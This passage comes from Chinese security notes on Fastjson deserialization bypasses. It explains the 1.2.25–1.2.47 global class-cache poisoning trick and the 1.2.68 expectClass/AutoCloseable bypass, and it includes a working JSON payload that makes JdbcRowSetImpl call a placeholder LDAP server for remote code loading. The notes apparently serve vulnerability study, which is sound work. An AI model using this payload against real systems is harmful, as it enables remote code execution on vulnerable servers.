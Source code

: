     这个攻击分为两步，核心是利用了 Fastjson 内部的一个用于提高性能的**全局类缓存**（一个`Map`）。
    
    1. **第一步 (缓存投毒)**：攻击者在JSON中先发送一个`{"@type":"java.lang.Class", "val":"com.sun.rowset.JdbcRowSetImpl"}`。`java.lang.Class`这个类本身是无害的，**不在黑名单中**，因此`checkAutoType`会放行。Fastjson在处理这个对象时，会根据`"val"`的值，通过`TypeUtils.loadClass()`方法去加载`com.sun.rowset.JdbcRowSetImpl`这个类，并且**将这个类的定义加载到全局缓存中**。
    2. **第二步 (触发Gadget)**：攻击者在同一个JSON中发送`{"@type":"com.sun.rowset.JdbcRowSetImpl", ...}`。当Fastjson再次解析到这个`@type`时，它会再次调用`checkAutoType`。此时，`checkAutoType`会**优先检查全局缓存**中是否已存在这个类。由于第一步已经将`JdbcRowSetImpl`“投毒”写入了缓存，检查直接命中并通过，**完全绕过了后续的黑名单检测逻辑**。最终，这个被拉黑的Gadget被成功实例化，导致漏洞利用。
    
    要求：
    
    **1.2.25 - 1.2.32版本**：仅在`autoType`未开启时能成功利用
    
    **1.2.33 - 1.2.47版本**：无论`autoType`是否开启，都能成功利用
    
    payload：
    
    ```java
    {
        "a":{
            "@type":"java.lang.Class",
            "val":"com.sun.rowset.JdbcRowSetImpl"
        },
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"ldap://your-ldap-server:1389/Exploit",
            "autoCommit":true
        }
    }
    ```
    
2. 其他Gadget
    
    无变化，`c30p`,`MyBatis` 依旧能用
    

## 1.2.68

### 原理

1.2.48开始默认关闭了@type，但是以下绕过手法是1.2.68具有的

### 绕过

1. 利用 `expectClass` 机制和 `AutoCloseable` 接口绕过
    
    原理：
    
    - **`expectClass` 机制**：Fastjson 在反序列化某些类的字段时，如果这个字段的类型是一个接口或抽象类，Fastjson 会将这个接口/抽象类的类型记录下来，作为“期望类型”(`expectClass`)。
    - **二次反序列化**：当 Fastjson 接下来解析到一个 JSON 对象来填充这个字段时，它会再次调用 `checkAutoType`，但这次会把“期望类型”(`expectClass`)也传进去。
    - **漏洞触发点**：在 `1.2.68` 版本的 `checkAutoType` 函数中，存在一个关键逻辑：如果传入的 `@type` 指定的类，是“期望类型”(`expectClass`)的子类或实现类，**并且这个类不在黑名单中**，那么 Fastjson 就会允许其实例化。
    - **`AutoCloseable` 的利用**：`java.lang.AutoCloseable` 是一个 JDK 内置的接口，几乎所有IO流相关的类（如 `FileOutputStream`）都实现了这个接口。攻击者可以先反序列化一个 `@type` 为 `java.lang.AutoCloseable` 的对象，从而将“期望类型”设置为 `AutoCloseable`。紧接着，再反序列化一个实现了 `AutoCloseable` 接口的危险类（Gadget），由于这个 Gadget 本身可能非常“冷门”而不在黑名单中，因此成功绕过了 `checkAutoType` 的所有防御，导致漏洞利用。
    